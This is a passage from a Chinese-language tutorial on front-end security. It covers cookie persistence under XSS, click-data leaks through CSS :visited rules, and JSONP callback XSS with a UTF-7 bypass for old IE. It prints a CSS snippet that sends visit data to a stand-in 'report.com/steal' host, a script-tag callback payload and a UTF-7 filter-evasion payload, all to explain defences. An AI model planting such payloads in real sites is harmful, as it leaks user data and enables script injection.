 ### 五、内存Cookie与硬盘Cookie
`内存Cookie` - 指没有设置过期时间Expires的Cookie，随浏览器关闭，此Cookie在内存中销毁                              
`硬盘Cookie` - 设置了过期事件Expires的Cookie，常驻硬盘，直到过期

我们很容易得出结论：内存Cookie更安全。因此，某些站点会把`敏感信息放到内存Cookie`里面。这原本是没什么风险的，但恰巧会在遇到XSS的时候失控。试想下，XSS攻击者可以给内存Cookie加一个过期时间，使其变为硬盘Cookie，就会在未来很长一段时间内，甚至是永久控制着目标用户的账号权限。                  

因此，这里有两个关注点：                 
1. 敏感信息还是不要放Cookie里，即使是内存Cookie；              
2. 服务器要做Cookie的三个维度的校验 -  唯一性（是否验证通过）、完整性（是否被篡改了）、是否过期。               

### 六、CSS带来的点击量泄露
在我们的印象中，前端安全基本是js带来的问题，但css也会有安全隐患吗？是的。除去IE下的css中执行js代码问题，还有另外一个关注点。                   
假如有一个开源组件，我们只看了下js源码，觉得没有漏洞风险，就直接拿过来使用了。况且，没有前端人员乐于去读别人的css的…但有某种极端的情况，css带来了意想不到的数据泄露。                    
试想这是一个`导航栏组件`，html代码是这样的：                 
```
<a href="http://yousite.com/a1" id="a1">nav1</a>
<a href="http://yousite.com/a2" id="a2">nav2</a>
<a href="http://yousite.com/a3" id="a3">nav3</a>
```
你忽略掉的css写成这样：                
```
#a1:visited {background: url(http://report.com/steal?data=a1);}
#a2:visited {background: url(http://report.com/steal?data=a2);}
#a3:visited {background: url(http://report.com/steal?data=a3);}
```
我们用到业务里，用户点击这三个导航后，a标签的visited伪属性生效，就会设置background，而背景的url其实是上报地址。这时候，你的业务的`点击数据量`就暴露给第三方了！                     
当然，这只针对旧版本浏览器，新版本浏览器都已fix这个问题。可是，HTML5的出现又让这个问题回归了…                                              
HTML5提供伪类`::selection`，当指定对象区域被选择时，就会触发。其原理跟上面类似。                         

### 七、JSONP回调函数与UTF-7编码
#### 7.1) 基本原理 
在JSONP技术中，服务器通常会让请求方在请求参数中提供callback 函数名，而不是由数据提供方定制，如请求方发起请求：                                 
`cgi-bin/get_jsonp?id=123&call_back=some_function`                              
返回数据格式为：                                                  
`some_function([{'id':123, data:'some_data'}]);`                              
如果，数据提供方没有对callback函数名做安全过滤，就会带来XSS问题。                              
请求：                              
`cgi-bin/get_jsonp?id=123&call_back=<script>alert(1);</script>`
返回：                              
`<script>alert(1);</script>([{'id':123, data:'some_data'}]);`                              
所以，一般服务器都会对call_back参数进行过滤，但过滤的方法是否会存在漏洞呢？                              
#### 7.2) IE解析UTF-7漏洞
比较简单的过滤方法，是过滤`<>`字符，使得无法构成html标签。但在IE6\IE7的某些版本中，存在以下漏洞：**如果发现文件前面是“+/v8”开头，就把文件当做UTF-7解析**（IE7后续版本已发布补丁修复）。                       
在没被修复的IE版本中，如果我们将上面的请求用utf-7编码。再在前面加上"+/v8"头：                       
`cgi-bin/get_jsonp?id=123&callback=%2B%2Fv8%20%2BADw-script%2BAD4-alert(1)%2BADw-%2Fscript%2BAD4`                       
这时候巧妙的躲开了`<>`过滤，而返回：                       
`+/v8 +ADw-script+AD4-alert(1)+ADw-/script+AD4({‘id’=>123,data=>’some_data’});`                       
这时IE将这个jsonp文件当作utf-7解析，依然触发XSS。                       
